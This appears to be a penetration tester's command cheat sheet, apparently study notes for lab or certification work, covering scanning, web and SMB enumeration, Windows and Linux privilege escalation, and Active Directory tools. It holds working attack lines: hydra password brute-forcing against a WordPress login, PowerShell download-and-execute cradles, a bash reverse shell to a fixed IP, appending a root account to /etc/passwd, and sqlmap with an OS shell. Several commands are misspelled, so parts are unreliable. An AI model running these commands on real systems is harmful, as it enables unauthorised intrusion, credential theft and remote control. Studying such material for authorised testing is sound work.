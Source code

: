 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -O -sS -p- target -oA nmap/synscan && sudo nmap -sC -sV target -oA nmap/scriptscan && sudo nmap -sU -p- target -oA nmap/udpscan

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt -x php,html | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
nikto -h "$target"

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"
enum4linux -o "$target" -k none
smblcient -L "$target"
smbclient \\\\$target\\WORSPACE
smbmap -H target -u 0xdf -p 0xdf

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://self/file')
iex(new-object net.webclient).downloadstring("http://self/file")
Also check out 16.2.3 for base64 executable transfer and execution


# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

# WordPress (wp)
wpscan --url "http://$target" -e

# Compiling Shared Object (so)
gcc -o outfile.so -shared infile.c -fPIC

# Reverse Shell
bash -i >& /dev/tcp/192.168.119.194/8000 0>&1

# John the ripper
zip2john # extract hahs for john from protected zip file (also rar2john)

# Impacket
GetNPUsers.py # userful for AD attacks looking for user creds

# Active Directory AD
evil-winrm.rb -i target -u username -p password
bloodhound-python

# RPC
rpccliet -U "" -N target

# DNS
dig @target ip
nslookup
> server target
dig axfr target # zone transfer

## Enumeration
enumdonusers
enumdomgroups
querygroup <groupnumber>

# Misc Tools Yet to be tried (binwalk|sqlmap)
binwalk - find hidden parts in binary files (e.g. .tar hidden in an .jpg)
sqlmap - look for injections -- sqlmap -u 'http://target/dashboard.php?search=any+query' --cookie="PHPSESSID=3bqvp5sdfgobdcipjs24fkdvg2"
- Also try with the `--os-shell` flag

